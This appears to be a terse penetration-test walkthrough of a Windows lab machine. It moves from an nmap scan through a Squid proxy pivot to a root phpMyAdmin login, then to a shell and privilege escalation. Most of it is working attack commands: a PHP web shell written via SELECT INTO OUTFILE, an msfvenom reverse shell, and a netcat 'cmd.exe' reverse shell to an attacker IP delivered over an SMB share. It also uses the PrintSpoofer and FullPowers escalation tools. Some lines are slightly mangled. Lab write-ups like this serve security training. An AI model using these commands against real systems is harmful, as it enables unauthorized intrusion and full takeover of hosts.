



_____

>[!INFO]
> IP=192.168.185.189
> Windows

# Nmap

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn $IP | grep -oP '\d+(?=/tcp)' | paste -sd ',' -
```

```python
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-08T10:22:56
|_  start_date: N/A
|_clock-skew: -5h59m50s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Squid Proxy


```bash
python3 spose.py --proxy http://$IP:3128 --target $IP
Using proxy address http://192.168.185.189:3128
192.168.185.189 8080 seems OPEN
```


```bash
curl --proxy http://$IP:3128 http://$IP:8080
```


### phpmyadmin
root:

http://192.168.185.189:8080/phpmyadmin/index.php






https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com

```bash
msfvenom -p php/reverse_php LHOST=192.168.45.190 LPORT=443 -f raw -o shell.php
```

```bash
select ‘<?php system($_GET["cmd"]); ?>;’ into outfile ‘C:/wamp/www/shell.php’;
```


```cmd
impacket-smbserver smbFolder $(pwd)

dir \\IP\smbFolder\nc.exe
copy \\IP\smbFolder\nc.exe nc.exe

nc.exe 192.168.45.190 80% -e% cmd.exe
```

```bash
sudo rlwrap nc -lnvp 80
```

# PrivEsc

##  nt authority\local service

https://itm4n.github.io/localservice-privileges/?ref=benheater.com

https://github.com/itm4n/FullPowers?ref=benheater.com



## SeImpersonatePrivilege

https://github.com/itm4n/PrintSpoofer

```cmd
PrintSpoofer64.exe -i -c cmd
```
